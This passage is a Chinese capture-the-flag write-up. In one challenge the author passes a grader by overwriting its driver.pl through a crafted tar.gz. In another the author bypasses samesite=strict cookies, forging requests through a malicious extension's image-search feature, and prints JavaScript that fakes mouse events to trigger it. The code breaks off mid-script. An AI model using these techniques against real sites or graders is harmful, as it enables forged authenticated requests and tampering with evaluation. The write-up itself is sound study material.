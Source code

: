 


### ICS笑传之抄抄榜（P2 flag1）

#### flag1
我还是太天真了，居然在web题里认真的做datalab，没看到浮点数那几个perf离谱的限制。

其实看到tar.gz的时候就应该想到这玩意解压出来会覆盖一些文件。于是写一个假的`driver.pl`一起打包打进tar.gz里就过了。

当然这个`.pl`是运行在docker里的，所以不会对后续flag有帮助。


### 好评返红包（P1 flag1, P2 flag2）

> 大祥老师：お幸せに

这个题是久违的CSRF题，客户端cookie本身不是目的，但被samesite=strict保存的很好，我们的目的是要通过某些操作让浏览器0click带cookie访问特定网站，甚至能获取回显更好。

我拿到这个恶意插件后还在物理机上装了一下，后来仔细想了想还是删了后面用selenium测试（

我把玩这个插件的过程中发现它的主要功能除了新标签页外，就是可以把网页上的图片在淘宝上搜索。于是我就试了一下把图片地址改成了CSRF的目标，点了一下搜索，然后……就带着cookie访问过去了。看来插件访问URL完全不管什么跨域跨站，完全就是按一次全新的访问来看的。

于是接下来的目标就变成了，怎么用JS模拟刚刚这个过程。毕竟JS是事件驱动的嘛，所以刚才这些东西一定手动构造事件还原。于是在devtools事件断点 + 无数次试错下，有了这些东西：

```js
window.onload = () => {

    setTimeout(() => {
        var img = document.getElementById('target')
        var hover = document.querySelector(".index-module__imgSearch_hover_content--c5JEb");
        
        get_mouse_move = () => (new MouseEvent("mousemove", {
            isTrusted: true,
            srcElement: img,
            target: img,
            toElement: img,
            bubbles: true,
            x: 153,
            y:101,
            clientX: 153,
            clientY: 101,
            layerX: 153,
            layerY: 101,
            currentTarget: document,

            movementX: 25,
            movementY: -30,

            offsetX: 111,
            offsetY: 140,
            pageX: 119,
            pageY: 148,
            relatedTarget: null,
            returnValue: true,
            screenX: 247,
            screenY: 449,
        }))

        document.dispatchEvent(get_mouse_move())
        img.dispatchEvent(get_mouse_move())
        // hover.setAttribute('style', 'display: flex')

        var findtaobao = document.querySelector(".index-module__imgSearch_hover_content_text--WI0by");

        console.log(findtaobao);
```